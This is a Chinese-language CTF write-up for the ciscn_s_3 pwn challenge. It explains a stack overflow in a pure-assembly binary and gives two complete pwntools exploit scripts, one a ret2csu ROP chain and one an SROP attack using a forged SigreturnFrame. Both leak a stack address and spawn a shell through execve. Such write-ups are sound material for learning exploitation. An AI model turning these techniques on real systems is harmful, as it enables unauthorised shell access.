




算是一个纯汇编的题，由于不像正常的函数一样所以这里的返回地址的位置就有点不一样了。

我用了两个方法，一个常规版一个利用的是signreturn函数。

先看主函数



可以看到整个主函数就是利用syscall调用了两个函数一个read，一个write。但是存在一个syscall的gadget。



这里可以看到两个直接对rax赋值的指令。很明显这就是出题人故意留下的。

59就是execve，而15则是signreturn。之后咱们搜一下可以利用的gadget。



这里可以看到，如果直接调用的话是少寄存器的。

有两种，一种是利用复杂的rop链，一种是利用signreturn函数伪造Signal Context。

第一种是利用__libc_csu_init函数里自带的



先跳转到0x400596，之后设置好r12，r13跟rbx。之后再跳转到0x400580，利用里面的mov rdx，r13去设置rdx，实现间接控制rdx。

之后就是利用上面设置rax的指令去实现ROP链了。至于/bin/sh的写入是通过利用第一次打印去泄露栈位置。比较常规我就不讲了。

```
from pwn import *

#io = process("ciscn_s_3")
io = remote("node5.buuoj.cn",25418)
elf = ELF('11')

main_addr =0x4004ED
libc_start = 0x400580
libc_end = 0x40059A
pop_rax_addr =0x4004E2
pop_rdi_addr =0x4005a3
syscall_addr =0x400501
payload = b'/bin/sh\x00' + b'A' * 0x8 + p64(main_addr)
io.sendline(payload)
io.recv(0x20)
sh_addr = u64(io.recv(8))-0x118
payload1 = b"/bin/sh\x00"*2 + p64(libc_end)
payload1 +=p64(0)+p64(0)+p64(sh_addr+0x50)+p64(0)*3+p64(libc_start)+p64(pop_rax_addr)
payload1 +=p64(pop_rdi_addr)+p64(sh_addr)+p64(syscall_addr)
io.sendline(payload1)
io.interactive()
```

另一个方法则是利用signreturn会根据sign context函数去设置寄存器状态的特性去设置寄存器。

这适合就要去利用SigreturnFrame()函数去伪造了。

至于做法比较简单主要还是伪造的context。所以我就不多说了，直接上脚本。

```
from pwn import *
context.arch = 'amd64'
r = process('./11')

syscall_addr = 0x400517
gadget_rax_15 = 0x4004da  
main_addr =0x0004004ED
#gdb.attach(r)
payload = b'A' * 16 + p64(main_addr)
r.sendline(payload)
r.recv(0x20)
sh_addr = u64(r.recv(8))-0x118
frame1 = SigreturnFrame()
frame1.rax = 59
frame1.rdi = sh_addr
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = syscall_addr

payload1 = b'/bin/sh\x00' + b'A' * 0x8 + p64(gadget_rax_15) + p64(syscall_addr) + bytes(frame1) 
r.send(payload1)

r.interactive()
```

还有要说的，这里的返回地址不是24而是16。具体的原因要自己去调试看汇编，会发现整个主函数就只有两个命令操纵了rsp。

